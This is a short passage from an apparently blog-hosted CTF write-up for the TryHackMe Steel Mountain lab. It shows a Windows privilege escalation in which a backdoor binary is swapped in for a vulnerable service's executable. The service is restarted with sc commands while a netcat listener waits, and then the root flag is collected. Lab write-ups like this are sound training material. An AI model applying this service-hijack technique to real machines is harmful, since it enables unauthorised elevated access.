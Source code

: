 After starting a netcat session, restart the service
{% highlight powershell %}
sc stop AdvancedSystemCareService9
{% endhighlight %}
{% highlight powershell %}
sc start AdvancedSystemCareService9
{% endhighlight %}
<br>When the service boots, **Advanced.exe** backdoor binary will be executed instead of the **ASCService.exe**. 
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/19.jpg){:.normal}<br><br>
You can find the root flag **root.txt** under **C:\Users\Administrator\Desktop** directory.

# SECOND METHOD
